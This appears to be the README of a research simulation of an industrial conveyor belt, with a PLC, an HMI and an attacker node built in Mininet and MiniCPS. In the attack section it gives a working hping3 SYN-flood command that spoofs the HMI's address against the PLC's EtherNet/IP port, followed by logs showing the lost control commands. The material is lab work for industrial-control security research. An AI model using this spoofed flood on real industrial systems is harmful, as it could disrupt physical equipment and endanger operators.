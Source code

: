 # DigitalTwin-ConveyorBelt: Simulation

This **DigitalTwin-ConveyorBelt** prototype simulates a conveyor belt, consisting of one PLC, a HMI and
an attacker (that has maliciously entered the network) that are connected by a switch. 
In this scenario, the attacker carries out a SYN-flood denial-of-service (DOS) attack. 
The conveyor belt runs as follows:

![conveyor belt](misc/conveyor-belt.JPG "conveyor belt")

The conveyor belt is driven by a motor, which possesses a certain temperature.
The PLC controls the physical process of the conveyor belt as follows:
First, the sensor measuring the temperature ("*SENSOR-TEMPERATURE*") is checked. Initially, it should be at 15 degree celsius.  
If the thresholds of the motor temperature (min: 8.0, max: 100.0) hold true, the motor can be started.
The actuator ("*MOTOR*") contains values from 0, whereby 0 indicates that the motor is turned off.
If the value is >0, the motor is on with the given velocity. 
Thereby, the motor velocity can be 50 at maximum, otherwise the PLC will turn the motor off.
Through the HMI, the values of the temperature can be requested from the PLC. Also, the operator can command a certain velocity via the HMI, which will be sent to the PLC.


## Installation
To install the **DigitalTwin** simulation of the conveyor belt please follow the instructions given below in the *exact order*.
You can use a VM that runs on Linux Ubuntu (e.g. VirtualBox with Ubuntu 18.04). 
When running on a VM, use SSH and X11-forwarding for window display (e.g. PuTTy in combination with XMing).

### Install mininet
To install [Mininet](http://mininet.org) execute the following commands:
```bash
git clone git://github.com/mininet/mininet
cd mininet
mininet/util/install.sh -a
```
Afterwards, test whether the installation was successful:
```bash
sudo mn --test pingall
```
If successful, run the following commands to exit the Mininet-CLI and cleanup the simulation:
```bash
mininet> exit
mn -c
```
Additional help is given at the [Mininet installation website](http://mininet.org/download/).

### Install MiniCPS
To install [MiniCPS](https://github.com/scy-phy/minicps) either use
```bash
pip install minicps
```
or clone the [MiniCPS-GitHub project](https://github.com/scy-phy/minicps).

### Install Wireshark & Co.
If you wish to capture the network traffic, install [Wireshark](https://www.wireshark.org/):
```bash
sudo apt-get install wireshark
```

### Initiate the DigitalTwin
Execute the following commands in the folder of this project.
To initiate state and topology of the conveyor belt simulation run the following commands.
To create the SQLLite-Table that simulates the physical states (*SENSOR-TEMPERATURE*, *MOTOR*):
```bash
python init.py
```
To create the topology and ping all nodes:
```bash
sudo python run.py
```
The last command should produce the following output:
```bash
*** Ping: testing ping reachability
attacker -> hmi plc
hmi -> attacker plc
plc -> attacker hmi
*** Results: 0% dropped (6/6 received)
mininet>
```
### Start the simulation of the physical process
To start the scripts that simulate physical behavior and the machines logic 
open the following nodes in a new terminal window by the following command:
```bash
mininet> xterm plc hmi switch
```
This command will produce an error if SSH and X11-forwarding is not set up correctly.
Execute the following scripts in the *respective nodes* and strictly in the following order 
(alternatively uncomment the lines in the *run.py* before executing *run.py*):
```bash
on node switch: python physical_process.py 
on node plc: python plc.py
```
By running these commands the physical process and control logic is started which should produce output
in the respective terminal windows of the nodes. 

Moreover, the *logs*-folder should now be filled with the following log files containing current system logs:
- plc.log
- hmi.log

### Attack the physical process
By opening a window on the *attacker* node the SYN-flood DOS attack can be started. Thereby, the attacker hides his/her own IP and 
disguises with the IP from the HMI (10.0.0.2), and aims at the PLC (10.0.0.1):
```bash
mininet> xterm attacker

on node attacker: hping3 -S -a 10.0.0.2 --flood -V -p 44818 10.0.0.1
```                    
Once the attack is started the following output should occur:
```bash
using attacker-eth0, addr: 10.0.0.3, MTU: 1500
HPING 10.0.0.1 (attacker-eth0 10.0.0.1): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
```      
Whenever the attack is to be ended, press *strg+C*, which stops the attack and informs about the packets sent, e.g.:
```bash
12398768 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```    
It is also possible to use Wireshark for sniffing the network traffic. 
Make sure to install Wireshark beforehand and run it on node switch.

### Exit and cleanup
Afterwards run the following commands to exit and cleanup the simulation:
```bash
mininet> exit
mn -c
```

## Usage
### Attack simulation
By installing various tools (e.g. hping3, Ettercap, Wireshark etc.) the attacker node can try a multitude of possible attacks.
The following shows the respective nodes and their output when the *attacker* runs a SYN-flood DOS attack with hping3
targeted at the PLC.

### System logs
The system logs indicate at first that PLC can communicate without problems (see extract of *plc.log* in folder *logs/DOS*): 
```bash  
INFO 11/28/2020 12:36:40 10.0.0.1 main_loop Set motor to velocity: 40.000000.
INFO 11/28/2020 12:36:41 10.0.0.1 main_loop Set motor to velocity: 40.000000.
INFO 11/28/2020 12:36:42 10.0.0.1 main_loop Received new velocity from HMI (10.0.0.2) in own (10.0.0.1) internal enip tag.
INFO 11/28/2020 12:36:43 10.0.0.1 main_loop Set motor to velocity: 14.000000.
```
The logs further show the input given from the HMI (see extract of *hmi.log* in folder *logs/DOS*):
```bash
INFO 11/28/2020 12:36:41 10.0.0.2 main_loop Sent new velocity to PLC (10.0.0.1): 14.000000.
INFO 11/28/2020 12:37:15 10.0.0.2 main_loop Sent new velocity to PLC (10.0.0.1): 23.000000.
```               
After the attack is initiated, the following logs show that *PLC* is no longer able to receive the new velocity from the *HMI*, as it still keeps the velocity
from before (see extract of *plc.log* in folder *logs/DOS*):
```bash
INFO 11/28/2020 12:37:11 10.0.0.1 main_loop Set motor to velocity: 14.000000.
INFO 11/28/2020 12:37:16 10.0.0.1 main_loop Set motor to velocity: 14.000000.
INFO 11/28/2020 12:37:19 10.0.0.1 main_loop Set motor to velocity: 14.000000.
INFO 11/28/2020 12:37:22 10.0.0.1 main_loop Set motor to velocity: 14.000000.
```
### Network traffic
While the logs indicate that the communication between the PLC and HMI is disturbed, the network traffic captured via Wireshark (filter: TCP) reveals the SYN-flooding attack:

![SYN flood attack](misc/SYN-flood_DOS_attack_wireshark.PNG "SYN flood attack")

## Research and Citation
Please consider citing this GitHub repository if you are using our **DigitalTwin-ConveyorBelt** simulation.